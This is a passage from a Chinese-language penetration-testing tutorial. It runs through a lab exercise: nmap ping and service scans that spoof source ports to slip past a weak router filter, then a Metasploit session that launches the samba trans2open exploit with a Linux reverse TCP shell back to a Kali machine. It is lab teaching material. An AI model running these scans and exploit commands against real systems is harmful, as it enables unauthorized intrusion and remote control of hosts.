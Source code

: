 一旦机器启动，我们需要确定 DHCP 服务器分配的 IP 地址。我们可以通过扫描 VMnet2 子网来做到这一点。

在您的 Kali 机器终端窗口中输入 `nmap –g 20 –sP 10.2.0.100-200` 进行针对 VMnet2 网络的 ping 扫描。我们有幸知道 DHCP 服务器的起始和结束 IP 范围，所以我们将在这里使用它来加快扫描速度。扫描的示例如下截图所示：

![穿透过滤器的技巧](img/477-1_07-60.jpg)

我们看到我们的结果中有三个目标，我们知道 132 号机器是 OWASP，135 号机器是我们的 Kali 机器；因此，我们感兴趣的目标是 140 号机器。这一切都是因为路由器上的弱过滤器配置。一旦我们找到了突破口，我们将继续使用它。我们需要知道目标上运行的服务，所以输入`nmap –g 80 –sV 10.2.0.140`来显示目标的服务信息。我们知道这个目标机器不是 Windows 机器，但我们在目标上看到了类似 Windows 端口的开放。

由于这种情况，我们可以得出结论，samba 正在运行在这台机器上。有许多 samba 漏洞；我们可以对它们进行研究，并尝试看看我们是否成功。

我们介绍了许多发现漏洞的技术，我们将为您节省一些麻烦，看看一些可用的 samba 利用程序。如果输入`msfconsole`来启动 metasploit 工具，程序启动需要一些时间，一旦启动，我们想使用出色的搜索功能；输入`search samba`。以下截图显示了部分结果的示例：

![渗透过滤器的技巧](img/477-1_07-61.jpg)

如前面的截图所示，我们有许多可用的利用程序；我们希望选择评级为“优秀”或更高的那些，因为这将提供最大的成功机会。话虽如此，成功并不保证，但这就是利用的现实。那么，你会选择哪一个？好吧，我们已经讨论了研究的概念，这就是你找出哪一个对你最有效的方法。我们将为您节省时间；在您的 metasploit 窗口中输入以下内容：

```
use exploit/linux/samba/trans2open
set RHOST 10.2.0.140
set payload linux/x86/shell/reverse_tcp
set LHOST 10.2.0.135
set LPORT 123
exploit

```
